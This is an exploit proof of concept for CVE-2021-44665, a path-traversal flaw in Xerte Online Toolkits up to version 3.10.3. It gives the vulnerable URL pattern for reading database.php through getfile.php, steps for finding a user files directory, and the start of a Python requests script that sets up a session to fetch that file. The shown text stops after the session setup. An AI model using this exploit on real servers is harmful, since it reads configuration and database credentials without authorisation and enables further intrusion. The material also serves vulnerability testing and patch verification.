 # Exploit Author: Rik Lutz
# Vendor Homepage: https://xerte.org.uk
# Software Link: https://github.com/thexerteproject/xerteonlinetoolkits/archive/refs/heads/3.9.zip
# Version: up until 3.10.3
# Tested on: Windows 10 XAMP
# CVE : CVE-2021-44665

# This PoC assumes guest login is enabled. Vulnerable url:
# https://<host>/getfile.php?file=<user-direcotry>/../../database.php
# You can find a userfiles-directory by creating a project and browsing the media menu.
# Create new project from template -> visit "Properties" (! symbol) -> Media and Quota -> Click file to download
# The userfiles-direcotry will be noted in the URL and/or when you download a file.
# They look like: <numbers>-<username>-<templatename>

import requests
import re

xerte_base_url = "http://127.0.0.1"
file_to_grab = "/../../database.php"
php_session_id = "" # If guest is not enabled, and you have a session ID. Put it here.

with requests.Session() as session:
    # Get a PHP session ID
    if not php_session_id:
        session.get(xerte_base_url)
    else:
        session.cookies.set("PHPSESSID", php_session_id)
